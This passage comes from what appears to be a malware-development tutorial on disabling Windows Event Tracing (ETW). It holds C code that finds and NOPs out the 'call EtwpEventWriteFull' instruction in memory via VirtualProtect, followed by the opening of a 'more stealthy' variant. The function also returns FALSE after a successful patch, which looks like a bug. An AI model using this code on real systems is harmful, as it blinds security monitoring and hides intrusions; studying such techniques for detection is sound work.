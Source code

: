 ```c
		printf("[!] GetProcAddress failed with error  %d \n", GetLastError());
		return FALSE;
	}

	// A while-loop to find the last 'ret' instruction
	while (1) {
		if (pEtwFuncAddress[i] == x64_RET_INSTRUCTION_OPCODE && pEtwFuncAddress[i + 1] == x64_INT3_INSTRUCTION_OPCODE)
			break;
		i++;
	}

	// Searching upwards for the 'call' instruction
	while (i) {
		if (pEtwFuncAddress[i] == x64_CALL_INSTRUCTION_OPCODE) {
			pEtwFuncAddress = (PBYTE)&pEtwFuncAddress[i];
			break;
		}
		i--;
	}

	// If the first opcode is not 'call', return false
	if (pEtwFuncAddress != NULL && pEtwFuncAddress[0] != x64_CALL_INSTRUCTION_OPCODE)
		return FALSE;

	// Change memory permissions to RWX
	if (!VirtualProtect(pEtwFuncAddress, PATCH_SIZE, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] failed with error  %d \n", GetLastError());
		return FALSE;
	}

	// Apply the patch - Replacing the 'call EtwpEventWriteFull' with 0x90 instructions
	for (int j = 0; j < PATCH_SIZE; j++) {
		*(PBYTE)&pEtwFuncAddress[j] = NOP_INSTRUCTION_OPCODE;
	}

	// Change memory permissions to original
	if (!VirtualProtect(pEtwFuncAddress, PATCH_SIZE, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] failed with error  %d \n", GetLastError());
		return FALSE;
	}

	return FALSE;
}
```

### Patching The Start of EtwpEventWriteFull

A more stealthy approach involves patching the `EtwpEventWriteFull` function directly. This approach is advantageous for two reasons: firstly, it applies a single patch rather than the previous solution which applies a patch on two functions. And secondly, there may be several other functions that invoke `EtwpEventWriteFull` besides `EtwEventWrite` and `EtwEventWriteFull`, all of which would have an unpatched `call EtwpEventWriteFull` instruction.
